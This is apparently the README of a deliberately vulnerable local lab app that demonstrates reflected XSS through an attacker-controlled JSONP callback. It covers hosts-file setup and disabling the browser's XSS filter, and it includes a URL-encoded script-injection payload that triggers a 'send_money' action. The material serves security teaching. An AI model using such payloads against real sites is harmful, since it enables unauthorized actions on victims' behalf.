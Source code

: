 ## Description

A web application vulnerable to reflected XSS that is vulnerable via the use of an attacker-controlled JavaScript function callback.

## Requirements

* Python 2
* [CGIHTTPServer](https://docs.python.org/2.7/library/cgihttpserver.html)


## Usage

### Configuring /etc/hosts

This makes use of the imaginary domains "mytrustedomain.com" and "myvulnerablethirdpartydomain.com". To open up your /etc/hosts file to associate the domains with localhost, run this:

    $ sudo nano /etc/hosts

Add these entries:
```
127.0.0.1       mytrusteddomain.com
127.0.0.1       myvulnerablethirdpartydomain.com
```

In `nano`, you can save your changes with Ctrl+o (written as "^O" at the bottom of the screen). After saving the file, use Ctrl+x to exit.

### Starting the server

```
$ chmod -R +x *.py #make the Python web pages executable
$ python -m CGIHTTPServer 8000
```

### Configuring your browser

You will need to bypass or disable the XSS filtering features in your browser. Disabling is easier. (Don't forget to enable it when you're done.)

Firefox:
1. Go to the location `about:config` in the URL.
2. Find the attribute `browser.urlbarfilter.javascript` and set it to `false`.

### Viewing in your browser

Visit http://mytrusteddomain.com:8000/

This will redirect you automatically to http://mytrusteddomain.com:8000/cgi-bin/xssmaker.py

You can add GET parameters in the URL to reflect XSS. For example:

    http://mytrusteddomain.com:8000/cgi-bin/xssmaker.py?a=%3CSCRIPT%20src%3D%22http%3A%252F%2Fmyvulnerablethirdpartydomain.com:8000/cgi-bin/jsonp.py%253Fcallback=send_money%22%3E%3C/SCRIPT%3E%20

### Output

In Firefox 48:

    Money sent to bob
